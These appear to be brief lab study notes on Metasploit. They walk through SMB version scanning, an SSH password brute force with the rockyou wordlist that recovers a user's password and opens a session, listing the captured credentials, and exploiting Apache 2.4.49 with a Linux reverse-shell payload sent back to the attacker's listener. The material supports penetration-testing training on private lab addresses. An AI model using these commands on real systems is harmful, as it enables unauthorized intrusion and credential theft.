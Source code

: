 activate a module
```
show 56
msf6 auxiliary(scanner/smb/smb_version) > info
msf6 auxiliary(scanner/smb/smb_version) > show options
```

set host two ways
```
set RHOSTS 192.168.221.202
services -p 445 --rhosts
run
```

auto detect vulnerabilities
```
vulns
search type:auxiliary ssh
use 15
show options
set PASS_FILE /usr/share/wordlists/rockyou.txt
set USERNAME george
set RHOSTS 192.168.221.201
set RPORT 2222
run
```

outputs Success: 'george:chocolate' and starts a session
now display the creds we have just gathered
```
creds
```

### exploit modules
```
192.168.221.16

workspace -a exploits
```

search for a specific vulnerability
```
search Apache 2.4.49
use 0
```

check payload options and set
```
show options
set payload payload/linux/x64/shell_reverse_tcp
```

set lhost for the reverse shell (port is automatically set at 4444)
```
set LHOST 192.168.45.181
set SSL false
set RPORT 80
set RHOSTS 192.168.221.16
run
```
